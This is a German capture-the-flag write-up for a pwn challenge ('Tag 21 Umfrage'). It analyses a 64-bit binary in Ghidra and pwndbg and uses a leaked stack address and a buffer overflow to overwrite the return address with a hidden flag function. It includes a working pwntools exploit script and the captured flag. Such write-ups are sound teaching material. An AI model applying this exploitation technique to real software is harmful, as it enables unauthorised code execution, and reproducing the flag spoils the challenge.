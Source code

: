 # Tag 21 Umfrage

![](images/21-01.png)

In dieser pwn Challenge habe ich einen Buffer Overflow genutzt, um einen pointer auf den Speicherort der return-Adresse zeigen zu lassen. Im nächsten Schritt habe ich die return-Adresse mit der Adresse der flag-Funktion überschrieben. Dadurch wurde die flag-Funktion ausgeführt und die flag ausgegeben.

## Analyse der Datei

Ich habe im Folgenden mit der Datei "main" gearbeitet. Hierbei handelt es sich um eine 64-Bit ELF Datei.

```
└─$ file main
main: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=5e07ce6eca3a407ff947917157768341d88a4358, for GNU/Linux 3.2.0, not stripped
```

## Was passiert beim Ausführen?
Bei Ausführung des Programms wird zunächst ein Wert geleakt, dann werden zwei Eingaben entgegengenommen (solange der erste Input mit "ja" beginnt).

```
└─$ ./main         
0x7ffca4106ef8
/////////////////////////////////////////////////////////
// Advent-Survey                                       //
/////////////////////////////////////////////////////////
Würdest du erneut bei so einem CTF mitmachen (ja/nein)? ja
Welches Rating würdest du der Advenzeit geben (1-100)? 100

```

## Analyse mit ghidra

## main Funktion

In der main-Funktion wird zunächst die globale Variable "rating" auf dem heap initialisiert.
Anschließend wird die Funktion "ask" aufgerufen, die besonders interessant ist, da sie die Ausgabe erklärt.

![](images/21-02.png)

## ask Funktion

Ich habe einige der Variablen umbenannt, um genauer zu sehen, wo sie verwendet werden und mich daran zu erinnern, wozu sie genutzt werden.

![](images/21-03.png)

Zunächst wird ein Wert vom Stack geleakt. Da mir nicht genau klar war, was das genau für ein Wert ist und wozu ich ihn verwenden kann, habe ich mir den Wert in pwndbg genauer angeschaut.

Mit `disassemble ask` habe ich mir den Assembly-Code der ask-Funktion angeschaut.
Da ich bei der ersten Eingabe den buffer overflow nutzen möchte, um zu verändern, worauf pointer_input zeigt, habe ich hier einen breakpoint gesetzt, um mir den Stack und die Werte genau anschauen zu können.

Dies ist der Assembly-Code, um die erste Eingabe entgegenzunehmen.
![](images/21-04.png)
Mit `break *0x4012b0` habe ich hier einen breakpoint gesetzt und mit `run` das Programm bis zu diesem Punkt laufen lassen.

Der geleakte Wert bei der Ausführung ist diesmal `0x7fffffffdde8`. 
Hier wird der Stack in pwndbg angezeigt:
![](images/21-05.png)

Um zu überprüfen, dass main+41 wirklich die return-Adresse ist, schaue ich mir den Code der main-Funktion mit `disassemble main`  ebenfalls an.

![](images/21-06.png)

Der geleakte Wert scheint also tatsächlich der Speicherbereich auf dem Stack zu sein, in dem die return-Adresse steht. Wenn dieser Speicherbereich überschrieben wird, springt das Programm nach Ende der ask-Funktion an die Adresse, mit der der Speicherbereich überschrieben wurde.

## flag Funktion

Bei der regulären Ausführung des Programms sehe ich nirgendwo die Möglichkeit, eine flag auszugeben oder eine shell zu starten. Also habe ich mir die weiteren Funktionen genauer angeschaut.

Dabei ist mir aufgefallen, dass eine Funktion "flag" existiert, die jedoch im normalen Programmablauf nicht aufgerufen wird. Das Ziel ist also, diese Funktion irgendwie aufzurufen.

![](images/21-07.png)

Die Adresse der flag-Funktion lautet 0x40136c:

```
└─$ readelf -s main | grep flag  
	<snip>
    49: 000000000040136c   158 FUNC    GLOBAL DEFAULT   14 flag
```

Um die flag-Funktion aufrufen zu können, benötigen wir also einen Weg, um das Programm an die Stelle `0x40136c` springen zu lassen.


## Wie komme ich nun zur flag?

Wie bereits angedeutet, gibt es in der ask-Funktion die Möglichkeit eines buffer overflows.

Die ersten 4 Zeichen werden dabei der Variable "input_ja_nein" zugeordnet. Da der zweite Input nur abgefragt wird, wenn die eingelesene Zeichenkette mit "ja" beginnt, habe ich hier "jaja" gewählt, da ich 4 Zeichen brauche, um die Variable zu füllen und den buffer overflow zu starten.

Die Zeichen danach verändern, auf welchen Speicherbereich die Variable "pointer_input" zeigt. Hier ist das Ziel, sie auf den Speicherbereich der return-Adresse auf dem Stack zeigen zu lassen. Da der leak diesen Bereich auf dem Stack angibt, sollte "pointer_input" mit dem leak überschrieben werden.

Als zweiten Input wähle ich die Adresse der flag-Funktion `0x40136c`. Da der Format-Code `%ld` zum Einlesen hier lautet und somit ein long (also eine Ganzzahl) ist, habe ich die Adresse `0x40136c` in eine Ganzzahl umgerechnet: `4199276`.

Beim Verlassen der ask-Funktion  wird dann nicht an den "richtigen" Ort in der main-Funktion gesprungen, sondern an den Anfang der Flag-Funktion. Dadurch wird die flag ausgegeben.


## Python-Code

```python
from pwn import *

p = remote("challenge.fernuni-hacken.de",50740)

#Leak in erster Zeile einlesen und in first_line speichern
first_line = p.recvline()
#\n abschneiden
leak = first_line[:-1]
#in integer umrechnen
leakInt = int(leak,16)

#ersten Input berechnen und senden
payload = b'jaja'+p64(leakInt)
p.sendline(payload)

#zweiter Input: Addresse der flag-Funktion als integer
p.sendline(b'4199276')

p.interactive()
```

## flag

```
└─$ python3 solution.py 
[+] Opening connection to challenge.fernuni-hacken.de on port 50740: Done
[*] Switching to interactive mode
/////////////////////////////////////////////////////////
// Advent-Survey                                       //
/////////////////////////////////////////////////////////
Würdest du erneut bei so einem CTF mitmachen (ja/nein)? Welches Rating würdest du der Advenzeit geben (1-100)? flag{th4nk_y0u_for_your_p4rticipati0n}
```

Hier wird also die flag ausgegeben: `flag{th4nk_y0u_for_your_p4rticipati0n}`.

